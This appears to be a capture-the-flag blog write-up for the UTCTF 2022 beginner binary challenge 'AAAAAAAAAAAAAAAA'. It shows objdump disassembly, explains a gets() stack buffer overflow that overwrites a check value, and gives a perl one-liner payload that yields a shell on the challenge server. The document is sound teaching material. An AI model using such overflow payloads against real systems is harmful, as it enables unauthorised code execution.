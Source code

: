 ```yaml
---
layout: post
title: "[UTCTF 2022] AAAAAAAAAAAAAAAA"
author: frehlid
---
```


# AAAAAAAAAAAAAAAA

## Problem description
>AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
This creatively named beginner challenge provides us with two pieces of information. A binary, and a server that the program is running on.  In this writeup, we are going to explore how a beginner might approach this problem, reasoning with the information given to find the flag.

Downloading the binary file, we can examine its contents to determine that its an x86 ELF executable for linux machines. 

```cpp
$file AAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAA: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=6a09f0a7e6d7e792e905fdaaf1561dfbc61d3708, for GNU/Linux 3.2.0, not stripped
```

By using objdump, we can examine the contents of the binary. Objdump is a tool that come preinstalled on UNIX systems, making it an ideal choice for beginners looking to explore some binaries. 

Inside the output, there’s a lot of information. Mostly, it consists of c-library functions and other information. However, there are two functions that might stand out to someone looking to solve this challenge: main, and get_flag.

```cpp
0000000000401156 <main>:
  401156:	f3 0f 1e fa          	endbr64
  40115a:	55                   	push   %rbp
  40115b:	48 89 e5             	mov    %rsp,%rbp
  40115e:	48 83 ec 70          	sub    $0x70,%rsp
  401162:	c6 45 ff 00          	movb   $0x0,-0x1(%rbp)
  401166:	48 8d 45 90          	lea    -0x70(%rbp),%rax
  40116a:	48 89 c7             	mov    %rax,%rdi
  40116d:	b8 00 00 00 00       	mov    $0x0,%eax
  401172:	e8 e9 fe ff ff       	call   401060 <gets@plt>
  401177:	80 7d ff 42          	cmpb   $0x42,-0x1(%rbp)
  40117b:	75 0a                	jne    401187 <main+0x31>
  40117d:	b8 00 00 00 00       	mov    $0x0,%eax
  401182:	e8 07 00 00 00       	call   40118e <get_flag>
  401187:	b8 00 00 00 00       	mov    $0x0,%eax
  40118c:	c9                   	leave
  40118d:	c3                   	ret

000000000040118e <get_flag>:
  40118e:	f3 0f 1e fa          	endbr64
  401192:	55                   	push   %rbp
  401193:	48 89 e5             	mov    %rsp,%rbp
  401196:	48 83 ec 10          	sub    $0x10,%rsp
  40119a:	48 8d 05 63 0e 00 00 	lea    0xe63(%rip),%rax        # 402004 <_IO_stdin_used+0x4>
  4011a1:	48 89 45 f0          	mov    %rax,-0x10(%rbp)
  4011a5:	48 c7 45 f8 00 00 00 	movq   $0x0,-0x8(%rbp)
  4011ac:	00
  4011ad:	48 8b 45 f0          	mov    -0x10(%rbp),%rax
  4011b1:	48 8d 4d f0          	lea    -0x10(%rbp),%rcx
  4011b5:	ba 00 00 00 00       	mov    $0x0,%edx
  4011ba:	48 89 ce             	mov    %rcx,%rsi
  4011bd:	48 89 c7             	mov    %rax,%rdi
  4011c0:	e8 8b fe ff ff       	call   401050 <execve@plt>
  4011c5:	90                   	nop
  4011c6:	c9                   	leave
  4011c7:	c3                   	ret
  4011c8:	0f 1f 84 00 00 00 00 	nopl   0x0(%rax,%rax,1)
  4011cf:	00
```

With a little bit of intuition, it’s obvious that we’re going to want to try and call the function get_flag. Examining the assembly code for this function reveals a syscall, confirming these suspicions. 

```cpp
4011c0:	e8 8b fe ff ff       	call   401050 <execve@plt>
```

Thus, if we can call get_flag, the system will execute the syscall, allowing us to access the flag. With that in mind, how can we call get_flag?

Conveniently, main includes a call to this function! However, it gets jumped over in the program’s normal execution

```cpp
401177:	80 7d ff 42          	cmpb   $0x42,-0x1(%rbp)
40117b:	75 0a                	jne    401187 <main+0x31>
40117d:	b8 00 00 00 00       	mov    $0x0,%eax
401182:	e8 07 00 00 00       	call   40118e <get_flag>
```

The above lines in main represent code that compares the value 1 off of the base of the stack frame with the value 0x42. If the at -0x1(rbp) is not equal to 0x42, we jump to <main+0x31>, skipping the call to get flag. At this point, one might devise a new goal — set -0x1(rbp), and in doing so, successfully make a call to get_flag.

```cpp
  401166:	48 8d 45 90          	lea    -0x70(%rbp),%rax
  40116a:	48 89 c7             	mov    %rax,%rdi
  40116d:	b8 00 00 00 00       	mov    $0x0,%eax
  401172:	e8 e9 fe ff ff       	call   401060 <gets@plt>
```

Just before get flag, we see that there’s a call to gets, a commonly known vulnerable C-function. Gets, as a function, is vulnerable because it does not check if the size of its input fits within the bounds of its output buffer. Hence, a malicious user can utilize gets to overflow a memory buffer, taking control of the program.

With all of this in mind, the exploit in this challenge becomes quite clear; overflow the buffer passed to gets so that it writes 0x42 at -0x1(rbp). Doing so will mean that we fail the jne call in main, successfully calling get_flag! 

Generating the attack string is also pretty easy. In ASCII, the letter ‘B’ has hexadecimal value 0x42. Using perl, we can quickly generate a string containing the character ‘B’ 0x70 times. Since the beginning of main allocates 0x70 bytes onto the stack, if we fill the entire thing with the char B, we’re guaranteed to overwrite the value of -0x1(rbp).

```cpp
perl -e 'print "B" x 0x70' > exploit.txt
```

Finally, if we hop into gdb and run our program with exploit.txt we can see that the overflow is successful, and we are able to make our call to get_flag. 

![gdboutput](/assets/images/utctf2022/AAAAAAAAAAAAAAAA/gdboutput.png)

When running this exploit on the given server, we receive an interactive shell, where we find our flag!